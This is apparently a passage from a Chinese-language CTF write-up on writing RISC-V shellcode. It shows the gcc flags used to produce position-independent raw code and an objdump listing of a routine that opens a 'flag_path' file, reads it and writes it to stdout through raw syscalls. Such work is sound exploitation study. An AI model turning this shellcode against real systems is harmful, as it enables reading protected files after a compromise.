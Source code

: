 编译命令如下:

```bash
$ riscv64-linux-gnu-gcc-10 -Wa,-R -fPIC -O0 -nostdlib sc.c -o sc
```

对应gcc参数含义如下:

- -Wa,-R : -Wa表示后面的参数是传给as的, -R让as将data段合并的.text段中(`man as`for more information)
- -fPIC 表示编译得到的代码位置无关, 引用函数和全局变量时都是通过相对偏移, 而不是绝对地址
- -O0 让gcc不要优化, 测试时发现优化可能会让`_start()`函数不位于.text段开头
- -nostdlib 让gcc不链接系统标准启动文件和标准库文件，这样就不会有多余的启动代码，扣的时候更方便

编译完之后可以使用objdump确认一下字符串和`_start()`的位置:

```bash
$ riscv64-linux-gnu-objdump -d ./sc

./sc:     file format elf64-littleriscv


Disassembly of section .text:

00000000000002a0 <_start>:
 2a0:   be010113                addi    sp,sp,-1056
 2a4:   40113c23                sd      ra,1048(sp)
 2a8:   40813823                sd      s0,1040(sp)
 2ac:   42010413                addi    s0,sp,1056
 2b0:   4701                    li      a4,0
 2b2:   4681                    li      a3,0
 2b4:   00000617                auipc   a2,0x0
 2b8:   06c60613                addi    a2,a2,108 # 320 <flag_path>
 2bc:   f9c00593                li      a1,-100
 2c0:   03800513                li      a0,56
 2c4:   046000ef                jal     ra,30a <syscall>
 2c8:   87aa                    mv      a5,a0
 2ca:   fef42623                sw      a5,-20(s0)
 2ce:   be840713                addi    a4,s0,-1048
 2d2:   fec42783                lw      a5,-20(s0)
 2d6:   40000693                li      a3,1024
 2da:   863a                    mv      a2,a4
 2dc:   85be                    mv      a1,a5
 2de:   03f00513                li      a0,63
 2e2:   028000ef                jal     ra,30a <syscall>
 2e6:   be840793                addi    a5,s0,-1048
 2ea:   40000693                li      a3,1024
 2ee:   863e                    mv      a2,a5
 2f0:   4585                    li      a1,1
 2f2:   04000513                li      a0,64
 2f6:   014000ef                jal     ra,30a <syscall>
 2fa:   0001                    nop
 2fc:   41813083                ld      ra,1048(sp)
 300:   41013403                ld      s0,1040(sp)
 304:   42010113                addi    sp,sp,1056
 308:   8082                    ret

000000000000030a <syscall>:
 30a:   88aa                    mv      a7,a0
 30c:   852e                    mv      a0,a1
 30e:   85b2                    mv      a1,a2
 310:   8636                    mv      a2,a3
 312:   86ba                    mv      a3,a4
 314:   873e                    mv      a4,a5
 316:   87c2                    mv      a5,a6
 318:   00000073                ecall
 31c:   8082                    ret
```